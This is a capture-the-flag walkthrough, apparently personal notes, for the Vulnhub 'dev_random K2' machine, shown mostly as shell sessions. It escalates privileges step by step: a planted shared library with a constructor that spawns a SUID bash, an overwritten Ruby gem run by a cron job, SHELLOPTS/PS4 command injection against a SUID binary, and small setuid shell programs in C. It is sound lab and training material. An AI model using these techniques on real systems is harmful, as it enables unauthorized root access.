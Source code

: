 <https://www.hackingarticles.in/hack-the-dev-random-k2-vm-boot2root-challenge/>
<https://www.boiteaklou.fr/Abusing-Shared-Libraries.html>
<https://unix.stackexchange.com/posts/108269/revisions>
<http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub>
<https://www.youtube.com/watch?v=9B1C_xi_yic>
<https://www.vulnhub.com/entry/devrandom-k2,204/>



shared libraries, cat -v, bash -p, ruby gem which, sudo 1.8.6p7, privilege increase with SHELLOPTS and PS4

    [user@localhost ~]$ sudo -l
    Matching Defaults entries for user on this host:
        !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
        KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
        env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
        LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User user may run the following commands on this host:
        (user2) /bin/calc

    [user@localhost ~]$ strings /bin/calc
    ...
    Calculating something, please wait...
    /home/user/.config/libcalc.so <== HERE
    ...

    [user@localhost ~]$ ldd /bin/calc 
    linux-vdso.so.1 =>  (0x00007ffe8b6c0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f1f968b7000)
    libstdc++.so.6 => /lib64/libstdc++.so.6 (0x00007f1f965ae000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f1f962ab000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f1f96095000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f1f95cd4000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f1f96ac1000)

    [user@localhost ~]$ strace /bin/calc 2>&1 | grep -i -E "open|access"
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/home/user/.config/libcalc.so", O_RDONLY|O_CLOEXEC) = 3  <== HERE


    bash-4.2$ cat /home/user/libcalc.c 
    #include <stdio.h>
    #include <stdlib.h>

    static void x() __attribute__ ((constructor));

    void x() {
        system("cp /bin/bash /tmp/bash1 && chmod 4755 /tmp/bash1 && /tmp/bash1 -p");
    }

    gcc -shared -o /home/user/.config/libcalc.so -fPIC libcalc.c 

    [user@localhost ~]$ sudo -u user2 /bin/calc 
    Calculating something, please wait...
    [user2@localhost user]$ id
    uid=1001(user2) gid=1001(user2) groups=1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [user2@localhost user]$ 


    bash-4.2$  cat /tmp/bash2.c 

    void main() {
            setreuid(geteuid(), getuid());
            setregid(getegid(), getgid());
            system("/bin/bash");
    }

    [user2@localhost ~]$ gcc bash2.c  bash2

    [user2@localhost ~]$ ./bash2 
    [user2@localhost ~]$ id
    uid=1001(user2) gid=1001(user2) groups=1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023


    bash-4.2$ tac /etc/crontab 
    [user@localhost tmp]$ cat -v /etc/crontab
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin
    MAILTO=root
    HOME=/

    # For details see man 4 crontabs

    * * * * * user3 /sbin/bckup
    ^[[3A

    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
    # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
    # |  |  |  |  |
    # *  *  *  *  * user-name  command to be executed




    [user2@localhost ~]$ cat /sbin/bckup
    #!/usr/bin/env ruby

    require 'rubygems'
    require 'zip'

    directory = '/etc/firewalld/'
    zipfile_name = '/tmp/firewalld-backup.zip'

    File.delete(zipfile_name) if File::exists?(zipfile_name)
    Zip::File.open(zipfile_name, Zip::File::CREATE) do |zipfile|
            Dir[File.join(directory, '**', '**')].each do |file|
              zipfile.add(file.sub(directory, ''), file)
            end
    end


    [user2@localhost ~]$ gem which zip
    /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    [user2@localhost ~]$ ls -al /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    -rw-rw-r--. 1 root user2 49 Mar 27  2021 /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    echo '`cp /bin/bash /tmp/bash3 && chmod +s /tmp/bash3`' > /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb



    [user2@localhost ~]$ cat /tmp/bash3
    bash3-4.2$ id
    uid=1001(user2) gid=1001(user2) euid=996(user3) egid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash3-4.2$ ./bash2 
    bash: /home/user2/.bashrc: Permission denied
    bash-4.2$ id
    uid=996(user3) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023


    bash-4.2$ find / -perm -u=s -type f 2>/dev/null 
    /tmp/bash3
    /tmp/bash1
    /usr/bin/chfn
    /usr/bin/chage
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/mount
    /usr/bin/su
    /usr/bin/umount
    /usr/bin/crontab
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/sbin/pam_timestamp_check
    /usr/sbin/unix_chkpwd
    /usr/sbin/usernetctl
    /usr/lib/polkit-1/polkit-agent-helper-1
    /usr/lib64/dbus-1/dbus-daemon-launch-helper
    /usr/local/bin/whoisme <== HERE

    bash-4.2$ ls -al /usr/local/bin/whoisme
    -rwsr-xr--. 1 root user3 8616 Aug 30  2017 /usr/local/bin/whoisme




    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash5 && chown root.root /tmp/bash5 && chmod 4755 /tmp/bash5)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/bash5': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ /tmp/bash5 -p
    bash5-4.2# id
    uid=996(user3) gid=994(user3) euid=0(root) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash5-4.2# ./bash2 
    [root@localhost tmp]# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023




    #include <stdio.h>
    int main() {
        setuid(0);
        system("/bin/sh");
    }

    bash-4.2$ gcc egg.c  -o egg
    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/egg': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ ls -al /tmp/egg
    -rwsrwsr-x. 1 root root 8568 Nov 15 05:54 /tmp/egg
    bash-4.2$ ./egg 
    sh-4.2# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
